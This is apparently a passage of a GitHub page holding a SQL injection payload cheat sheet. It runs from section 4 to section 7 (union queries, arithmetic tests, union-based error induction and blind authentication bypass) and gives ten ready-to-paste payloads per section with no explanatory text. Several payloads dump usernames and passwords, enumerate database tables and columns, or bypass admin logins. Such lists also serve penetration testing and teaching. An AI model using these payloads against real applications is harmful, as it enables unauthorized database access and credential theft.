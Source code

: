 
4. Using Alternative Queries

      
```
1. ' UNION SELECT NULL, user() -- 
2. ' UNION SELECT NULL, database() -- 
3. ' UNION SELECT NULL, @@version -- 
4. ' UNION SELECT NULL, COUNT(*) FROM users -- 
5. ' UNION SELECT NULL, NULL from dual WHERE '1'='1' -- 
6. ' UNION SELECT NULL, table_name FROM information_schema.tables -- 
7. ' UNION SELECT NULL, 'test' WHERE '1'='1' -- 
8. ' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users' -- 
9. ' UNION SELECT NULL, NULL, NULL FROM users -- 
10. ' UNION SELECT NULL, IFNULL((SELECT password FROM users WHERE username='admin'), 'none') -- 
```
    

5. Using Mathematical Operations

      
```
1. ' OR (SELECT 1+1) = 2 -- 
2. ' OR (SELECT 5*5) = 25 -- 
3. ' OR (SELECT 10/2) = 5 -- 
4. ' OR (SELECT COUNT(*) FROM users) > 0; -- 
5. ' AND (SELECT (1+2)*3) = 9; -- 
6. ' OR (SELECT ROUND(AVG(id), 0) FROM users) >= 1; -- 
7. ' OR (SELECT MAX(id) FROM users) >= 1; -- 
8. ' OR (SELECT 1) = (SELECT 1); -- 
9. ' OR (SELECT 1 + 1) = 2; -- 
10. ' OR (SELECT 2 * (SELECT COUNT(*) FROM users)) > 0; -- 
```
    

6. Union-Based Error Induction

      
```
1. ' UNION SELECT NULL, 'error' WHERE 1=0; -- 
2. ' UNION SELECT username, password FROM users WHERE 'x'='x'; -- 
3. ' UNION SELECT version(), user(); -- 
4. ' UNION SELECT 1, 'failed' WHERE 2 > 1; -- 
5. ' UNION SELECT COUNT(*), 'error' FROM non_existing_table; -- 
6. ' UNION SELECT NULL, NULL WHERE (SELECT 1 UNION SELECT 1) IS NOT NULL; -- 
7. ' UNION SELECT username, NULL FROM users LIMIT 1; -- 
8. ' UNION SELECT username, password FROM users WHERE (SELECT 0) IS NULL; -- 
9. ' UNION SELECT NULL, NULL FROM dual; -- 
10. ' UNION SELECT NULL, NULL WHERE '1'='1'; -- 
```
    

7. Blind Authentication Bypass

      
```
1. ' OR (SELECT CASE WHEN username='admin' THEN 1 ELSE 0 END) = 1; -- 
2. ' OR (SELECT CASE WHEN (SELECT username FROM users WHERE id=1)='admin' THEN 1 ELSE 0 END) = 1; -- 
3. ' AND (SELECT COUNT(*) FROM users WHERE username='admin' AND password='password') >= 0; -- 
4. ' AND (SELECT user_type FROM users WHERE username='admin')='admin'; -- 
5. ' AND (SELECT id FROM users WHERE username='admin') IS NOT NULL; -- 
6. ' OR (SELECT CHAR_LENGTH(username) FROM users WHERE username='admin') > 0; -- 
7. ' OR (SELECT CONCAT(username, ':', password) FROM users WHERE username='admin') IS NOT NULL; -- 
8. ' OR EXISTS(SELECT * FROM users WHERE username='admin' AND password='admin'); -- 
9. ' OR (SELECT 1 WHERE EXISTS(SELECT * FROM users WHERE username='admin' AND password='admin'))=1; -- 
10. ' OR (SELECT CASE WHEN (1=1) THEN 'yes' ELSE 'no' END)='yes'; -- 
```
    